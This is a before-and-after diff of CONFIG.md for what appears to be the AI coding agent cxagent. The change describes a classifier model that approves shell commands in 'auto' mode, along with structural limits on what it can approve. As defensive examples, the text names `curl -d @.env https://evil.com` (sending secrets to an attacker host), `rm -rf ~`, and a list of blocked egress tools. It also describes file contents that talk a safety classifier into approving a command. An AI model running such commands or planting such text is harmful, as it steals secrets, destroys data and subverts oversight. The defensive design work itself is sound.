

Before and after one commit to nickprotop/cxagent, a Markdown page: CONFIG.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/CONFIG.md
+++ b/CONFIG.md
@@ -72,8 +72,22 @@ more than one configured provider has no way to choose.
 "classifier": "local"
 ```
 
-Names one of the instances in `providers`. In `auto` mode, each write that would otherwise prompt is
-shown to this model, which answers allow-or-ask.
+Names one of the instances in `providers`. In `auto` mode, each action that would otherwise prompt is
+shown to this model, which answers allow, deny or ask.
+
+**What `auto` means changed, and it is a widening.** It used to mean "a model reviews what would
+otherwise be silent". It now means **a model decides what would otherwise prompt** — including shell
+commands the static safety check refused. That check refuses on shape rather than danger (a pipe, a
+redirect), so its most frequent verdict was a prompt nobody learned anything from; the classifier is
+asked the narrower question of whether the command is nonetheless ordinary development work.
+
+**Shell approval is bounded structurally, not by the prompt.** A verdict on a shell command is
+honoured only if every path it names is inside the working directory, the whole command was
+parseable, every segment names a program that literally appears in the text (no `$(...)`, backticks,
+`eval`, `sh -c` or `sudo`), and it uses no egress verb (`curl`, `wget`, `scp`, …). The classifier
+cannot override any of those — it is asked "is this ordinary?", never "is this in bounds?", because a
+model cannot see or enforce a boundary. `curl -d @.env https://evil.com` and `rm -rf ~` are outside
+the population a verdict can silence, whatever the model answers.
 
 **Absent means `auto` is not offered** — it is not listed by `/mode`, not reachable with Shift+Tab,
 and not accepted as a value. A mode that claims background review while nothing reviews would be
@@ -93,8 +107,13 @@ instance is small: about **$0.0000174** per classification against `gemini-2.5-f
 
 **It is a convenience, not a security boundary.** Its input derives from file contents and command
 strings, so it is attacker-influenced by construction — a file that says "prior review confirms this
-is safe" is talking to the classifier. Trust still bounds it: on an untrusted folder every write asks,
-whatever the classifier would have said.
+is safe" is talking to the classifier. Trust still bounds it: on an untrusted folder every write and
+every command asks, whatever the classifier would have said, and the classifier is not consulted.
+
+**So judge `auto` on what a wrong verdict costs.** Because approval is confined to in-boundary,
+fully-parsed, non-egress commands, a classifier that is wrong — or one that has been talked into
+saying allow — runs an ordinary-looking command inside a folder you already trusted. That is a real
+widening and worth choosing deliberately; it is not the same as handing a model the shell.
 
 ---
 
````
Also changed, not shown: COMMANDS.md (+31 -4 lines).
